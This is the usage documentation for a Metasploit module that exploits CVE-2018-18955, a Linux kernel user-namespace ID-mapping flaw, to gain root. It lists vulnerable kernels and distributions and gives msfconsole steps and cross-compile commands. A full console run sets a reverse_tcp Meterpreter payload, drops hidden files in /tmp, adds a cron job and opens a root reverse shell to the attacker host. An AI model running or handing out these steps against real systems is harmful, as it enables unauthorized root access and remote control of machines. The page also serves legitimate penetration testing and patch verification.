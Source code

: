 ## Description

  This module exploits a vulnerability in Linux kernels 4.15.0 to 4.18.18,
  and 4.19.0 to 4.19.1, where broken uid/gid mappings between nested user
  namespaces and kernel uid/gid mappings allow elevation to root
  (CVE-2018-18955).

  The target system must have unprivileged user namespaces enabled and
  the newuidmap and newgidmap helpers installed (from uidmap package).


## Vulnerable Application

  This module has been tested successfully on:

  * Fedora Workstation 28 kernel 4.16.3-301.fc28.x86_64
  * Kubuntu 18.04 LTS kernel 4.15.0-20-generic (x86_64)
  * Linux Mint 19 kernel 4.15.0-20-generic (x86_64)
  * Ubuntu Linux 18.04.1 LTS kernel 4.15.0-20-generic (x86_64)


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/nested_namespace_idmap_limit_priv_esc`
  4. `set SESSION <SESSION>`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)

  **COMPILE**

  Options: `Auto` `True` `False` (default: `Auto`)

  Whether the exploit should be live compiled with `gcc` on the target system,
  or uploaded as a pre-compiled binary.

  `Auto` will first determine if `gcc` is installed to compile live on the system,
  and fall back to uploading pre-compiled binaries.


## Compiled Executables
  
The module makes use of two pre-compiled exploit executables:

  * `subuid_shell`
  * `subshell`

These are used when `gcc` is not available on the target host for live compiling,
or `COMPILE` is set to `False`.

The executables were cross-compiled with [musl-cross](https://s3.amazonaws.com/muslcross/musl-cross-linux-6.tar).
  
```bash
./i486-linux-musl-gcc -o subshell.out -s -pie -static subshell.c 
./i486-linux-musl-gcc -o subuid_shell.out -s -pie -static subuid_shell.c 
```


## Scenarios

### Fedora Workstation 28 (verbose output)

  ```
  msf > use exploit/linux/local/nested_namespace_idmap_limit_priv_esc 
  msf exploit(linux/local/nested_namespace_idmap_limit_priv_esc) > set payload linux/x64/meterpreter/reverse_tcp
  payload => linux/x64/meterpreter/reverse_tcp
  msf exploit(linux/local/nested_namespace_idmap_limit_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/nested_namespace_idmap_limit_priv_esc) > set lhost 172.16.191.188
  lhost => 172.16.191.188
  msf exploit(linux/local/nested_namespace_idmap_limit_priv_esc) > set verbose true
  verbose => true
  msf exploit(linux/local/nested_namespace_idmap_limit_priv_esc) > check

  [+] Unprivileged user namespaces are permitted
  [+] /usr/bin/newuidmap is set-uid
  [+] /usr/bin/newgidmap is set-uid
  [+] Kernel version 4.16.3-301.fc28.x86_64 appears to be vulnerable
  [*] The target appears to be vulnerable.
  msf exploit(linux/local/nested_namespace_idmap_limit_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [+] Unprivileged user namespaces are permitted
  [+] /usr/bin/newuidmap is set-uid
  [+] /usr/bin/newgidmap is set-uid
  [+] Kernel version 4.16.3-301.fc28.x86_64 appears to be vulnerable
  [+] gcc is installed
  [*] Live compiling exploit on system...
  [*] Writing '/tmp/.LOren.c' (6058 bytes) ...
  [*] Writing '/tmp/.C9dWgG.c' (1604 bytes) ...
  [*] Writing '/tmp/.6syapMd72' (367 bytes) ...
  [*] Adding cron job...
  [*] [.] starting
  [*] [.] setting up namespace
  [*] [~] done, namespace sandbox set up
  [*] [.] mapping subordinate ids
  [*] [.] subuid: 100000
  [*] [.] subgid: 100000
  [*] [~] done, mapped subordinate ids
  [*] [.] executing subshell
  [+] Success. Waiting for job to run (may take a minute)...
  [*] Transmitting intermediate stager...(126 bytes)
  [*] Sending stage (816260 bytes) to 172.16.191.137
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.137:39150) at 2018-11-24 19:28:02 -0500

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : localhost.localdomain
  OS           : Fedora 28 (Linux 4.16.3-301.fc28.x86_64)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  meterpreter > 
  ```

